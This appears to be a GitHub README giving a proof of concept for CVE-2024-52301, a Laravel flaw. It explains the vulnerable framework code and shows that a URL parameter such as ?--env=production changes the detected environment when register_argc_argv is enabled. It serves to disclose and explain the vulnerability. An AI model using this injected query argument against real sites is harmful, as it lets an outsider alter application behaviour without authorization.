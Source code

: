 # CVE-2024-52301 POC

This vulnerability is based on the CVE-2024-50340 vulnerability

## Requirements

The register_argc_argv option must be enabled in the PHP configuration file (php.ini). This setting loads command-line arguments and query params into $_SERVER['argv'].

[https://www.php.net/manual/en/ini.core.php#ini.register-argc-argv](https://www.php.net/manual/en/ini.core.php#ini.register-argc-argv)
## Explanation of Vulnerable Code

//Illuminate\Foundation\Application
public function detectEnvironment (Closure $callback)
{
    $args = $_SERVER['argv'] ?? null;

    return $this['env'] = (new EnvironmentDetector)->detect($callback, $args);
}

Purpose: This method detects the environment by accessing $_SERVER['argv'], which holds command-line arguments, and then delegates to the EnvironmentDetector class.

Vulnerability Source: By relying on $_SERVER['argv'], any injected URL parameters (e.g., ?--env=dev) could manipulate $_SERVER['argv'] to contain ["--env=dev"]. This array is passed directly to detect, potentially allowing an attacker to control the environment.

```html
//Illuminate\Foundation\EnvironmentDetector
public function detect(Closure $callback, $consoleArgs = null)
{
    if ($consoleArgs) {
        return $this->detectConsoleEnvironment($callback, $consoleArgs);
    }

    return $this->detectWebEnvironment($callback);
}
```

Purpose: The detect method determines if $consoleArgs (the argv array) is provided. If present, it calls detectConsoleEnvironment to handle console-based environment detection; otherwise, it calls detectWebEnvironment for HTTP requests.

Pathway to Vulnerability: If $_SERVER['argv'] includes injected values like --env=dev, it leads to detectConsoleEnvironment, which processes the arguments and could switch the application to a different environment.

```html
//Illuminate\Foundation\EnvironmentDetector
protected function detectConsoleEnvironment(Closure $callback, array $args)
{
    // First we will check if an environment argument was passed via console arguments
    // and if it was that automatically overrides as the environment. Otherwise, we
    // will check the environment as a "web" request like a typical HTTP request.
    if (! is_null($value = $this->getEnvironmentArgument($args))) {
        return $value;
    }

    return $this->detectWebEnvironment($callback);
}
```

Purpose: This method checks if the --env argument is present among console arguments.

Mechanism: It calls getEnvironmentArgument to see if any of the argv arguments specify an environment. If --env is provided, this method returns the specified environment value, bypassing the detectWebEnvironment call.

```html
//Illuminate\Foundation\EnvironmentDetector
protected function getEnvironmentArgument(array $args)
{
    foreach ($args as $i => $value) {
        if ($value === '--env') {
            return $args[$i + 1] ?? null;
        }

        if (str_starts_with($value, '--env=')) {
            return head(array_slice(explode('=', $value), 1));
        }
    }
}
```

Purpose: This method parses argv to find the --env argument. Mechanism:

If --env is found as a standalone flag, it returns the next argument as the environment value.

If --env= syntax is used (e.g., --env=dev), it extracts and returns the environment (dev in this case).

## PoC Example

[](https://github.com/Nyamort/CVE-2024-52301#poc-example)

Environment Configuration:

The .env file has APP_ENV=development, so by default, the application is set to the development environment.

```html
@production
    <p>Production environment</p>
@endproduction

@env ('local')
    <p>Local environment</p>
@endenv
```

**Default Access ([http://localhost](http://localhost)):**  
Since APP_ENV is set to development and no --env argument is injected, neither the @production nor the @env('local') directive matches.  
**Result**: The output is empty.

**Injected Argument for Production ([http://localhost?--env=production](http://localhost?--env=production)):**  
With ?--env=production in the URL, $_SERVER['argv'] is manipulated to contain ["--env=production"].  
This triggers Laravel's environment detection mechanism, setting the environment to production.  
Result: The @production directive outputs `<p>Production environment</p>`.

**Injected Argument for Local ([http://localhost?--env=local](http://localhost?--env=local)):**  
With ?--env=local, $_SERVER['argv'] includes ["--env=local"], changing the environment to local.  
Result: The @env('local') directive outputs `<p>Local environment</p>`

## Attention

This vulnerability does not allow changing the environment within the `config` function. Instead, it only affects the environment setting within the Application class.

Thus, although Blade directives and other parts of the code rely on the Application class to detect the environment, the code using the config function is not affected by this vulnerability.